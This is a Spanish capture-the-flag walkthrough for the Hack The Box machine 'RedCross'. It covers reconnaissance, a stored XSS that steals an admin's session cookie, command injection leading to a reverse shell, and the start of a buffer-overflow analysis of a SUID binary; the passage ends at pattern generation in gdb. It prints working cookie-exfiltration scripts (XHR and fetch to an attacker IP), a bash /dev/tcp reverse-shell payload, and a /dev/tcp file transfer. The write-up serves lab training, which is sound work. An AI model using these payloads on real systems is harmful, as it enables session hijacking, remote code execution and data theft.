









---
# Guía de explotación paso a paso 'RedCross'

**Máquina:** RedCross

**Plataforma:** Hack The Box

**Laboratorio:** [RedCross machine](https://app.hackthebox.com/machines/RedCross)

**Target:** 10.10.10.113

**Explotación**: [XSS](../../../../OWASP%20TOP%2010/XSS) y [Buffer Over Flow](../../../../Buffer%20Overflow/)

---

## Resumen

>La explotación se divide en tres fases: (1) **XSS Stored** para robo de cookies de administrador y secuestro de sesión, (2) **Command Injection** vía endpoint de whitelist para ganar acceso inicial como www-data, y (3) **Buffer Overflow en binario SUID** (`/opt/iptctl/iptctl`) mediante técnicas ROP para escalada a root.


---

## Reconocimiento

**Acción:** escaneo inicial con [nmap](../../../../Herramientas/Red/Nmap/).

```shell
nmap -p- --open -sS -n -Pn --min-rate 5000 -vvv 10.10.10.113 -oG allPorts
nmap -p22,80,443 -sCV -Pn -v 10.10.10.113 -oN targeted 
```

**Resultado:**

```shell
	[*] IP Address: 10.10.10.113
	[*] Open ports: 22,80,443
```

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u3 (protocol 2.0)
| ssh-hostkey: 
|   2048 67:d3:85:f8:ee:b8:06:23:59:d7:75:8e:a2:37:d0:a6 (RSA)
|   256 89:b4:65:27:1f:93:72:1a:bc:e3:22:70:90:db:35:96 (ECDSA)
|_  256 66:bd:a1:1c:32:74:32:e2:e6:64:e8:a5:25:1b:4d:67 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to https://intra.redcross.htb/
443/tcp open  ssl/http Apache httpd 2.4.38
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=intra.redcross.htb/organizationName=Red Cross International/stateOrProvinceName=NY/countryName=US
| Issuer: commonName=intra.redcross.htb/organizationName=Red Cross International/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-06-03T19:46:58
| Not valid after:  2021-02-27T19:46:58
| MD5:   f95b:6897:247d:ca2f:3da7:6756:1046:16f1
|_SHA-1: e86e:e827:6ddd:b483:7f86:c59b:2995:002c:77cc:fcea
|_ssl-date: TLS randomness does not represent time
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was /?page=login
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: Host: redcross.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Explicación:**  encontramos tres puertos abiertos. El escaneo nos avisa de que se produce Virtual Host Redirect en el host `intra.redcross.htb`, lo añadimos junto a su IP al archivo `/etc/hosts`.

```bash
whatweb https://intra.redcross.htb
```

```bash
https://intra.redcross.htb [302 Found] Apache[2.4.38], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.10.10.113], RedirectLocation[/?page=login]
https://intra.redcross.htb/?page=login [200 OK] Apache[2.4.38], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.10.10.113], PasswordField[pass]
```

**Explicación:** `whatweb` nos da la pista de que se están tramitando `Cookies[PHPSESSID]`, lo que nos hace pensar en un posible secuestro de sesión.


---

### Enumeración

Usamos gobuster para enumerar rutas ocultas:

```bash
gobuster dir -u https://intra.redcross.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -k
```

**Nota:** usamos el parámetro `-k` para continuar con el escaneo, *ignorando la verificación TLS* -->certificado con fecha de expiración

**Resultado:** nada relevante, visitemos la página para ver a que nos enfrentamos.

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 327] [--> https://intra.redcross.htb/images/]
/pages                (Status: 301) [Size: 326] [--> https://intra.redcross.htb/pages/]
/documentation        (Status: 301) [Size: 334] [--> https://intra.redcross.htb/documentation/]
/javascript           (Status: 301) [Size: 331] [--> https://intra.redcross.htb/javascript/]
```


---

**Acción:** como hay un servicio web, podemos examinar tecnologías con `whatweb <url_objetivo>` y visitar la dirección web para ver a qué nos enfrentamos.




---

## Secuestro de sesión



El payload enviado para probar la conexión probando una inyección JavaScript (XSS) es este:

```js
<script src=http://<IP_Atacante>/probando></script>
```

Antes de enviar el payload, abrimos con `python3 -m http.server 80` un servidor en el que recibir la conexión. Confirmamos que recibimos una solicitud. Esto confirma que: 

- 1. Hay una campo vulnerable a inyecciones XSS
	
- 2. Existe un usuario administrador del sistema, que recibe como mensajes los campos enviados en este formulario. Al recibir en payload y clicar en él, accede al recurso solicitado desde nuestro servidor.

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.113 - - [28/Oct/2025 11:40:43] code 404, message File not found
10.10.10.113 - - [28/Oct/2025 11:40:43] "GET /probando HTTP/1.1" 404 -
```

**Notas:** en la práctica real, empezaríamos probando payloads más simples, desde etiquetas *html* `<h1>test</h1>`, hasta alertas [JavaScript](../../../../Lenguajes/JavaScript/) `<script>alert(0)</script>`. Aunque esto podría descartarse rápido al observar que es un formulario que recibirá una tercera persona, es decir no es el tipo de campo cuyo contenido se vea reflejado desde nuestro lado como cliente. De todos modos al principio desconocemos esta lógica, y podemos y debemos probar de todo, empezando por lo más básico. Además, aquí vamos directamente al campo vulnerable que es el de contacto telefónico. De nuevo, en la práctica real, probaríamos en todos los campos, de uno en uno para poder ir examinando cada respuesta e ir sacando conclusiones del funcionamiento de la página web.

**Acción:** confirmada la conexión, probemos la extracción de cookies y el secuestro de sesión. Tenemos que crear un archivo `.js` que el administrador solicite a nuestro servidor cuando reciba la carga XSS en el formulario. El contenido del archivo `pwned.js` podría ser así:

```js
// pwned.js - exfiltra cookies mediante XHR (asíncrono)
var req = new XMLHttpRequest();
req.open('GET', "http://<IP_Atacante>/?cookie="+document.cookie, false);
req.send();
```

Alternativa de payload:

```js
// pwned.js - exfiltra cookies mediante fetch (asíncrono)
fetch('http://<IP_Atacante>/log?c=' + encodeURIComponent(document.cookie), {method: 'GET', mode: 'no-cors'});
```

Volvemos a enviar la carga XSS y esperamos con nuestro servidor abierto de python la solicitud del administrador.

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.113 - - [28/Oct/2025 11:57:25] "GET /pwned.js HTTP/1.1" 200 -
10.10.10.113 - - [28/Oct/2025 11:57:25] "GET /?cookie=PHPSESSID=8aalfb11gdv6auah3hbakbjsb7;%20LANG=EN_US;%20SINCE=1761649044;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 200 -
```

**Explicación:** hemos obtenido las cookies de sesión, aunque están URL-encoded podemos ver al final que pertenecen a un usuario 'admin'.

**Acción:** decodificamos las cookies, y probamos el secuestro de sesión.

[Ver nodejs](../../../../Lenguajes/JavaScript/Node.js.md)

```bash
nodejs    # abrimos sesión interactiva de JavaScript con la herramienta Node
>> decodeURIComponent('PHPSESSID=8aalfb11gdv6auah3hbakbjsb7;%20LANG=EN_US;%20SINCE=1761649044;%20LIMIT=10;%20DOMAIN=admin')
```

```bash
'PHPSESSID=8aalfb11gdv6auah3hbakbjsb7; LANG=EN_US; SINCE=1761649044; LIMIT=10; DOMAIN=admin'
```

**Nota:** alternativa para aplicar el decode.

Con python: 
```python
python3 -c "import urllib.parse; print(urllib.parse.unquote('PHPSESSID=8aalfb11gdv6auah3hbakbjsb7;%20LANG=EN_US;%20SINCE=1761649044;%20LIMIT=10;%20DOMAIN=admin'))"
```

**Acción:** teniendo estos valores de cookie, podemos proceder al secuestro de sesión. Vamos al navegador, abrimos DevTools `ctrl+shift+i`. Vamos a `Storage/Cookies`. Aquí nos encontramos pares `key:value`, lo que hacemos es cambiar el valor de la key `PHPSESSID` que tiene el nuestro sin privilegios, por el obtenido. Luego añadimos con el `+` que se ve en la imagen (arriba a la derecha), 4 keys más, para añadir sus valores (damos a `+` 4 veces y modificamos el nombres de las keys y añadimos los valores). Con todo configurado, simplemente refrescamos la página, le damos a actualizar o `ctrl+r`.



**Resultado:** confirmamos el secuestro de sesión, ahora estamos logueados como el usuario 'admin'. 



**Acción:** dado que en este punto no tenemos muchos campos de opción, lo correcto para no quedarse estancado es enumerar más. Para ello esta vez usaremos [WFUZZ](../../../../Herramientas/Enumeración%20Web/Wfuzz/Wfuzz.md) para encontrar subdominios. `-c --> aplicar color` - `--hc --> omitir código de estado`

```bash
wfuzz -c -t 100 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hc 301,400 -H "HOST: FUZZ.redcross.htb" https://intra.redcross.htb/
```

**Resultado:** encontramos el subdominio que ya usábamos pero también otro muy interesante, `admin`.

```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                               
=====================================================================

000000024:   421        12 L     49 W       407 Ch      "admin - admin"                                                                                                       
000000373:   302        0 L      26 W       463 Ch      "intra - intra" 
```

**Acción:** vamos al endpoint encontrado `https://admin.redcross.htb/`. Tenemos un nuevo panel para loguearse. Algo que podemos probar cuando tenemos unas cookies que han sido válidas es su reutilización en otras rutas. Hagamos el mismo proceso, esta vez añadamos solo la cookie `PHPSESSID`. Vemos que funciona y logramos acceder a un panel administrador.





**Acción:** examinamos las diferentes acciones que nos permite este panel, tenemos dos pestañas. `User Management` nos va a crear un usuario que demos (y una contraseña aleatoria), con esto podremos conectarnos vía ssh y explorar poco más que un script alojado en `/home/public/src/iptctl.c` (este script nos servirá posteriormente para ejecutar un Buffer Over Flow, por lo que podemos copiarlo y guardarlo en nuestra máquina atacante para su posterior análisis). La otra pestaña `Network Access` añade una IP dada a una lista blanca, esto da a entender y es lo que comprobaremos que añade por ejemplo nuestra IP atacante como dirección IP que no bloqueará ciertas reglas preconfiguradas de firewall. Al añadir nuestra IP, y realizar de nuevo un escaneo con [nmap](../../../../Herramientas/Red/Nmap/), confirmamos que obtenemos un mayor rango de puertos abiertos.



**Nota:** accedemos al usuario creado vía ssh `<nombre_usuario>@<IP_Máquina_Víctima>` usamos la contraseña generada. Una vez dentro accedemos a la ruta `/home/public/src/iptctl.c` para guardarnos el script en local.



**Nota:** con nuestra IP como `Whitelist IP Address` volvemos a escanear con nmap 

```bash
nmap -p- --open -sS -n -Pn --min-rate 5000 -v -oN allPorts_internos 10.10.10.113
```

**Resultado:** vemos que tenemos dos puertos más abiertos que antes no eran visibles dada nuestra situación de cara al firewall del servidor.

```bash
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
1025/tcp open  NFS-or-IIS
```

**Acción:** con todo esto seguimos examinando más en profundidad. Tenemos que probar cada funcionalidad que encontremos, como en `Network Access`, además de poder añadir una IP a una lista blanca, podemos borrarla. Vamos a analizar como se tramita esta petición con [Burp Suite](../../../../Herramientas/Burp%20Suite/BurpSuite.md). Ya que algo que podría concatenarse en peticiones como las que vamos a ver es un comando. Es decir, tenemos un campo donde introducir nuestro input, entendemos que esto esta programado dentro de una función que va a recibir dicho input y realizar determinadas acciones que desconocemos con ella. Pero, cabe preguntarse, y si de igual modo que ejecuta la acción programada, podemos concatenar o escapar de dicho contexto para ejecutar un comando. Por ejemplo `input; whoami`. Aquí añadiríamos el comando `whoami` al input que introduzcamos con el indicador propio de JavaScript y otros lenguajes `;`. Con esto damos fin a la acción anterior y damos inicio/concatenamos la siguiente. Para probar esta hipótesis, usaremos BurpSuite.



**Payload Reverse Shell:** usamos una versión URL-encoded de `; bash -c 'bash -i >& /dev/tcp/<IP_Atacante>/443 0>&1'`

```init
; bash -c "bash -i >%26/dev/tcp/<IP_Atacante>/443 0>%261"
```

**Servidor de escucha - Netcat:** `nc -lvnp 443`

```bash
Listening on 0.0.0.0 443
Connection received on 10.10.10.113 43136
bash: cannot set terminal process group (893): Inappropriate ioctl for device
bash: no job control in this shell
www-data@redcross:/var/www/html/admin/pages$ whoami
whoami
www-data
```

**Resultado:** ganamos acceso a la máquina objetivo, como usuario con bajos privilegios. Desde este punto la idea siempre es ganar más acceso, pivotar entre usuarios o sistemas y elevar nuestros privilegios a ser posible como root.


---

## Elevar privilegios

**Acción:** en un caso real, probaríamos multitud de formas, para resumir en esta guía, buscaremos directamente los archivos con permisos especiales SUID

[<<<<<Para saber más sobre la ESCALADA DE PRIVILEGIOS visite nuestro apartado dedicado a ello>>>>>](../../../..//Técnicas/Escalada%20de%20privilegios/)

```bash
find \-perm -4000 2>/dev/null
```

También válido (más correcto):

```bash
find / -type f -perm -4000 2>/dev/null
```

**Resultado:** encontramos un archivo interesante, acudimos a su ubicación `cd /opt/iptctl/` y con `file iptctl` vemos que es un archivo binario, es decir, un ejecutable. Este archivo vemos que además se ejecuta como usuario root. Con todo esto, y analizando el script escrito en `C` que encontramos anteriormente, vemos que corresponde a este binario, y que precisamente indica que el valor de caracteres permitidos en la entrada del usuario es bastante bajo `16 char`. Todo esto indica lo siguiente: si podemos ejecutar el binario (cosa que podemos como vamos a ver), si logramos hacer que se produzca un error de almacenamiento en el buffer, y si logramos controlar este error respecto a que caracteres almacenamos en la pila o stack. Podemos explotar un Buffer Over Flow que nos de acceso al sistema como usuario root.

```bash
./opt/iptctl/iptctl
```
### Buffer Over Flow

[<<<<<Para saber más sobre BUFFER OVER FLOW visite nuestro apartado dedicado a ello>>>>>](../../../../Buffer%20Overflow/)

**Acción:** nos pasamos a nuestra máquina atacante el binario para poder hacer las pruebas cómodamente en local. Una vez pasado le damos permisos de ejecución con `chmod +x iptctl`

Atacante:

```bash
nc -lvnp 4646 > iptctl
```

Objetivo:

```bash
cat < /opt/iptctl/iptctl > /dev/tcp/10.10.16.12/4646
```

**Nota:** con `md5sum iptctl` podemos comprobar si se ha corrompido la transferencia. Si tienen el mismo hash todo esta correcto, en caso de diferir el hash, algo en el binario ha cambiado o falta.

**Acción:** como disponemos del código fuente de la aplicación (lo encontramos en `/home/public/src/iptctl.c`) podemos examinarlo para entender su funcionamiento. Vamos a verlo paso a paso.

```c
  72   │ int main(int argc, char *argv[]){
  73   │     int isAction=0;
  74   │     int isIPAddr=0;
  75   │     pid_t child_pid;
  76   │     char inputAction[10];
  77   │     char inputAddress[16];
  78   │     char *args[10];
  79   │     char buffer[200];
  80   │ 
  81   │     if(argc!=3 && argc!=2){
  82   │         printf("Usage: %s allow|restrict|show IP_ADDR\n", argv[0]);
  83   │         exit(0);
  84   │     }
  85   │     if(argc==2){
  86   │         if(strstr(argv[1],"-i")) interactive(inputAddress, inputAction, argv[0]);
  87   │     }
```

**Explicación:** en este punto del código se define la función `main`, la principal. Aquí, se definen varias variables y distintos condicionales. El primer `if` filtra que pasemos el número de argumentos necesarios, de lo contrario mostrará el panel de `Usage`. En el segundo `i` descubrimos que existe una especie de modo `interective`, a este se llega si recibe el argumento `-i`.

**Acción:** probamos a ejecutar el programa el modo interactivo `./iptctl -i`

```bash
Entering interactive mode
Action(allow|restrict|show): 
```

Siguiente fragmento de código:

```c
  52   │ void interactive(char *ip, char *action, char *name){
  53   │     char inputAddress[16];
  54   │     char inputAction[10];
  55   │     printf("Entering interactive mode\n");
  56   │     printf("Action(allow|restrict|show): ");
  57   │     fgets(inputAction,BUFFSIZE,stdin);
  58   │     fflush(stdin);
  59   │     printf("IP address: ");
  60   │     fgets(inputAddress,BUFFSIZE,stdin);
  61   │     fflush(stdin);
  62   │     inputAddress[strlen(inputAddress)-1] = 0;
  63   │     if(! isValidAction(inputAction) || ! isValidIpAddress(inputAddress)){
  64   │         printf("Usage: %s allow|restrict|show IP\n", name);
  65   │         exit(0);
  66   │     }
  67   │     strcpy(ip, inputAddress);
  68   │     strcpy(action, inputAction);
  69   │     return;
  70   │ }
```

**Explicación:** vemos que se declara la acción `fgets(inputAction,BUFFSIZE,stdin)` que recibe un parámetro `inputAction`, el cual esta definido con una cantidad de bytes a almacenar en el buffer muy pequeña `char inputAction[10]`. Esto quiere decir que es susceptible de un Buffer Over Flow, ya que podemos introducir una cadena de caracteres mayor a la asignada, provocando un desbordamiento de la memoria y almacenando data en lo que se conoce como pila o stack.

Uso correcto:
```bash
Entering interactive mode
Action(allow|restrict|show): allow
IP address: 1.1.1.1
DEBUG: All checks passed... Executing iptables
Network access granted to 1.1.1.1
```

Uso corrompido: produce un buffer over flow
```bash
Entering interactive mode
Action(allow|restrict|show): allowAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
IP address: 1.1.1.1
zsh: segmentation fault  ./iptctl -i
```

**Resultado:** confirmamos la existencia de un Buffer Over Flow, ahora vamos a tratar de ir depurándolo para ver si logramos una inyección de comandos desde este programa que como hemos visto se ejecuta con permisos de usuario root.

#### Debugging

**Acción:** vamos a confirmar que es explotable un Buffer Over Flow, ejecutamos `checksec`

```bash
CANARY    : disabled  # ✓ No hay protección contra stack overflow
FORTIFY   : disabled  # ✓ No hay checks adicionales en funciones peligrosas
NX        : ENABLED   # ✗ Stack no ejecutable (necesitamos ROP)
PIE       : disabled  # ✓ Direcciones fijas (no hay randomización del binario)
RELRO     : Partial   # ✓ GOT escribible (aunque no lo explotamos aquí)

Conclusión: El binario es vulnerable a Buffer Overflow con técnicas ROP.
```

**Explicación:** si `checksec` muestra NX enabled, Canary no detectado, PIE disabled y RELRO partial — entonces es factible un overflow clásico

**Acción:** vamos a iniciar la herramienta [gdb](../../../../Herramientas/GDB-PEDA/Instalación%20GDB-PEDA.md). Ejecutamos los siguientes comandos para iniciar el debugger, arrancar el programa con la opción interactiva y enviar la cadena corrompida desde aquí, así podremos tener una primera aproximación sobre que esta pasando y que es lo que queremos lograr.

```bash
gdb ./iptctl -q
r -i
```

```bash
Starting program: /home/<PATH>/Redcross/content/iptctl -i
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Entering interactive mode
Action(allow|restrict|show): allowAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
IP address: 1.1.1.1
```

```bash
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffdaea ("allowAAAAA1.1.1.1")
RBX: 0x7fffffffdc18 --> 0x7fffffffdfc8 ("/home/<PATH>/Redcross/content/iptctl")
RCX: 0x16 
RDX: 0x11 
RSI: 0x7fffffffd976 ("allowAAAAA1.1.1.1")
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffdaea ("allowAAAAA1.1.1.1")
RBX: 0x7fffffffdc18 --> 0x7fffffffdfc8 ("/home/<PATH>/Redcross/content/iptctl")
RCX: 0x16 
RDX: 0x11 
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffdaea ("allowAAAAA1.1.1.1")
RBX: 0x7fffffffdc18 --> 0x7fffffffdfc8 ("/home/<PATH>/Redcross/content/iptctl")
RCX: 0x16 
RDX: 0x11 
RSI: 0x7fffffffd976 ("allowAAAAA1.1.1.1")
RDI: 0x7fffffffdaea ("allowAAAAA1.1.1.1")
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffd998 ('A' <repeats 39 times>, "\n")
RIP: 0x400b5e (<interactive+271>:	ret)
R8 : 0x1 
R9 : 0x4 
R10: 0x7ffff7dce260 --> 0x10001a000042a4 
R11: 0x7ffff7f1adb0 (<__strcpy_avx2>:	mov    rcx,rsi)
R12: 0x0 
R13: 0x7fffffffdc30 --> 0x7fffffffe010 ("USER=metahumo")
R14: 0x0 
R15: 0x7ffff7ffd020 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400b57 <interactive+264>:	call   0x4006f0 <strcpy@plt>
   0x400b5c <interactive+269>:	nop
   0x400b5d <interactive+270>:	leave
=> 0x400b5e <interactive+271>:	ret
   0x400b5f <main>:	push   rbp
   0x400b60 <main+1>:	mov    rbp,rsp
   0x400b63 <main+4>:	sub    rsp,0x160
   0x400b6a <main+11>:	mov    DWORD PTR [rbp-0x154],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffd998 ('A' <repeats 39 times>, "\n")
0008| 0x7fffffffd9a0 ('A' <repeats 31 times>, "\n")
0016| 0x7fffffffd9a8 ('A' <repeats 23 times>, "\n")
0024| 0x7fffffffd9b0 ('A' <repeats 15 times>, "\n")
0032| 0x7fffffffd9b8 ("AAAAAAA\n")
0040| 0x7fffffffd9c0 --> 0x0 
0048| 0x7fffffffd9c8 --> 0x0 
0056| 0x7fffffffd9d0 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400b5e in interactive ()
```

Nos interesa ahora fijarnos en esta parte:
```bash
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffd998 ('A' <repeats 39 times>, "\n")
```

**Explicación:** la idea es que con nuestra entrada sobrepasamos la cantidad de caracteres permitidos por el programa. Al procesar esto, el buffer se ve desbordado, y almacena la cadena sobrante en el registro `RSP`. Lo que vamos a querer saber es la parte de la cadena que pasa a este registro y para saber esto vamos a efectuar el siguiente comando desde `gdb-peda`.

```bash
pattern create 50
```

**Resultado:** generamos una cadena de 50 caracteres con gdb-peda. Esta herramienta nos va a permitir después detectar exactamente el número de bytes permitidos.

```bash
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
```

